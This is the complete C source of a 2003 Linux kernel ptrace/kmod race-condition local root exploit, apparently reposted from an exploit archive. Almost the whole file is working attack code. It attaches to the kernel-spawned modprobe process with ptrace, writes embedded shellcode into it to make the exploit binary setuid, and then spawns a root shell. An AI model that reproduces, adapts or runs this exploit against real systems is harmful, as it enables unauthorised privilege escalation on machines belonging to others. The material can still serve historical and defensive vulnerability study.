 EXP
---

    /*
     * Linux kernel ptrace/kmod local root exploit
     *
     * This code exploits a race condition in kernel/kmod.c, which creates
     * kernel thread in insecure manner. This bug allows to ptrace cloned
     * process, allowing to take control over privileged modprobe binary.
     *
     * Should work under all current 2.2.x and 2.4.x kernels.
     *
     * I discovered this stupid bug independently on January 25, 2003, that
     * is (almost) two month before it was fixed and published by Red Hat
     * and others.
     *
     * Wojciech Purczynski <cliph@isec.pl>
     *
     * THIS PROGRAM IS FOR EDUCATIONAL PURPOSES *ONLY*
     * IT IS PROVIDED "AS IS" AND WITHOUT ANY WARRANTY
     *
     * (c) 2003 Copyright by iSEC Security Research
     */

    #include <grp.h>
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <paths.h>
    #include <string.h>
    #include <stdlib.h>
    #include <signal.h>
    #include <unistd.h>
    #include <sys/wait.h>
    #include <sys/stat.h>
    #include <sys/param.h>
    #include <sys/types.h>
    #include <sys/ptrace.h>
    #include <sys/socket.h>
    #include <linux/user.h>

    char cliphcode[] =
        "\x90\x90\xeb\x1f\xb8\xb6\x00\x00"
        "\x00\x5b\x31\xc9\x89\xca\xcd\x80"
        "\xb8\x0f\x00\x00\x00\xb9\xed\x0d"
        "\x00\x00\xcd\x80\x89\xd0\x89\xd3"
        "\x40\xcd\x80\xe8\xdc\xff\xff\xff";

    #define CODE_SIZE (sizeof(cliphcode) - 1)

    pid_t parent = 1;
    pid_t child = 1;
    pid_t victim = 1;
    volatile int gotchild = 0;

    void fatal(char * msg)
    {
        perror(msg);
        kill(parent, SIGKILL);
        kill(child, SIGKILL);
        kill(victim, SIGKILL);
    }

    void putcode(unsigned long * dst)
    {
        char buf[MAXPATHLEN + CODE_SIZE];
        unsigned long * src;
        int i, len;

        memcpy(buf, cliphcode, CODE_SIZE);
        len = readlink("/proc/self/exe", buf + CODE_SIZE, MAXPATHLEN - 1);
        if (len == -1)
            fatal("[-] Unable to read /proc/self/exe");

        len += CODE_SIZE + 1;
        buf[len] = '\0';

        src = (unsigned long*) buf;
        for (i = 0; i < len; i += 4)
            if (ptrace(PTRACE_POKETEXT, victim, dst++, *src++) == -1)
                fatal("[-] Unable to write shellcode");
    }

    void sigchld(int signo)
    {
        struct user_regs_struct regs;

        if (gotchild++ == 0)
            return;

        fprintf(stderr, "[+] Signal caught\n");

        if (ptrace(PTRACE_GETREGS, victim, NULL, &regs) == -1)
            fatal("[-] Unable to read registers");

        fprintf(stderr, "[+] Shellcode placed at 0x%08lx\n", regs.eip);

        putcode((unsigned long *)regs.eip);

        fprintf(stderr, "[+] Now wait for suid shell...\n");

        if (ptrace(PTRACE_DETACH, victim, 0, 0) == -1)
            fatal("[-] Unable to detach from victim");

        exit(0);
    }

    void sigalrm(int signo)
    {
        errno = ECANCELED;
        fatal("[-] Fatal error");
    }

    void do_child(void)
    {
        int err;

        child = getpid();
        victim = child + 1;

        signal(SIGCHLD, sigchld);

        do
            err = ptrace(PTRACE_ATTACH, victim, 0, 0);
        while (err == -1 && errno == ESRCH);

        if (err == -1)
            fatal("[-] Unable to attach");

        fprintf(stderr, "[+] Attached to %d\n", victim);
        while (!gotchild) ;
        if (ptrace(PTRACE_SYSCALL, victim, 0, 0) == -1)
            fatal("[-] Unable to setup syscall trace");
        fprintf(stderr, "[+] Waiting for signal\n");

        for(;;);
    }

    void do_parent(char * progname)
    {
        struct stat st;
        int err;
        errno = 0;
        socket(AF_SECURITY, SOCK_STREAM, 1);
        do {
            err = stat(progname, &st);
        } while (err == 0 && (st.st_mode & S_ISUID) != S_ISUID);

        if (err == -1)
            fatal("[-] Unable to stat myself");

        alarm(0);
        system(progname);
    }

    void prepare(void)
    {
        if (geteuid() == 0) {
            initgroups("root", 0);
            setgid(0);
            setuid(0);
            execl(_PATH_BSHELL, _PATH_BSHELL, NULL);
            fatal("[-] Unable to spawn shell");
        }
    }

    int main(int argc, char ** argv)
    {
        prepare();
        signal(SIGALRM, sigalrm);
        alarm(10);

        parent = getpid();
        child = fork();
        victim = child + 1;

        if (child == -1)
            fatal("[-] Unable to fork");

        if (child == 0)
            do_child();
        else
            do_parent(argv[0]);

        return 0;
    }

    // milw0rm.com [2003-03-30]
